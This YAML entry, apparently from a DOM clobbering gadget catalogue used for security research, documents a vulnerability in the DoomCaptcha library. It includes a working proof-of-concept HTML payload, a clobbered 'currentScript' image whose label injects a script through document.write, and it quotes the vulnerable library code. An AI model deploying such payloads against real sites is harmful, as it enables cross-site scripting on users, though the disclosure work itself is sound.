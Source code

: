 ```yaml
---
description: Captchas don't have to be boring.
github: vivirenremoto/doomcaptcha
gadgets:
  Latest:
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - name-attr
      - label-attr
      - before-lib-load
    pocs:
      - description: The [DoomCaptcha](https://github.com/vivirenremoto/doomcaptcha) library uses the `document.currentScript` property to load additional scripts.
        code: |
          <!-- user input -->
          <img name="currentScript" label="<script>alert(document.domain)</script>">

          <script src="https://vivirenremoto.github.io/doomcaptcha/script.js?version=16"></script>
    links:
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/doomcaptcha.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/vivirenremoto/doomcaptcha/blob/c17ad670882174ce2d8a9b1d451c5ed453825f6a/script.js#L3">https://github.com/vivirenremoto/doomcaptcha/blob/c17ad670882174ce2d8a9b1d451c5ed453825f6a/script.js#L3</a>

      ```javascript
      var captcha_label = document.currentScript.getAttribute('label');

      // [...]

      var captcha_html = '';
      if (captcha_label) {
          captcha_html = '<p>' + captcha_label + '<br>';
      }

      // [...]

      document.write(captcha_html);
      ```
---
```

